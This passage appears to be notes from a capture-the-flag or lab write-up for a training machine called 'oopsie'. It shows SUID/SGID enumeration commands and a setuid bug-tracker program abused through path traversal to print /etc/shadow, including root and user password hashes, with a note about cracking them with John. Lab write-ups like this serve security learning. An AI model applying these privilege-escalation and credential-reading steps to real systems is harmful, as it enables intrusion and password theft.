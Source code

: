 - find -perm u=s -type f 2>/dev/null [x]
- find -perm g=s -type f 2>/dev/null [x]
- find -group bugtracker -type f 2>/dev/null

```bash
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker

robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: aaa
---------------

cat: /root/reports/aaa: No such file or directory
```

- shadow crack [x, unimplemented road]
  - john crack [x]

```bash
robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../etc/shadow
---------------

root:$6$eD0n5saZ$orykpdd7mVL/lF57rIGwUzeSROPC1KRITJ45Nqn6P2BLaZ.tcSOy5fNFcOw9uBRkClgu5R9WlyxpEId5qOOVY.:18285:0:99999:7:::
daemon:*:18113:0:99999:7:::
bin:*:18113:0:99999:7:::
sys:*:18113:0:99999:7:::
sync:*:18113:0:99999:7:::
games:*:18113:0:99999:7:::
man:*:18113:0:99999:7:::
lp:*:18113:0:99999:7:::
mail:*:18113:0:99999:7:::
news:*:18113:0:99999:7:::
uucp:*:18113:0:99999:7:::
proxy:*:18113:0:99999:7:::
www-data:*:18113:0:99999:7:::
backup:*:18113:0:99999:7:::
list:*:18113:0:99999:7:::
irc:*:18113:0:99999:7:::
gnats:*:18113:0:99999:7:::
nobody:*:18113:0:99999:7:::
systemd-network:*:18113:0:99999:7:::
systemd-resolve:*:18113:0:99999:7:::
syslog:*:18113:0:99999:7:::
messagebus:*:18113:0:99999:7:::
_apt:*:18113:0:99999:7:::
lxd:*:18113:0:99999:7:::
uuidd:*:18113:0:99999:7:::
dnsmasq:*:18113:0:99999:7:::
landscape:*:18113:0:99999:7:::
pollinate:*:18113:0:99999:7:::
sshd:*:18284:0:99999:7:::
robert:$6$kriHoPwv$iBt45Fu0g4R0uNWSubfjDRvtUSwxVu.U1JhYKmT4voMWlVc3/u2nu0j0JZL0YWmm62vRgAs4acBl8Ge.S393H/:18285:0:99999:7:::
```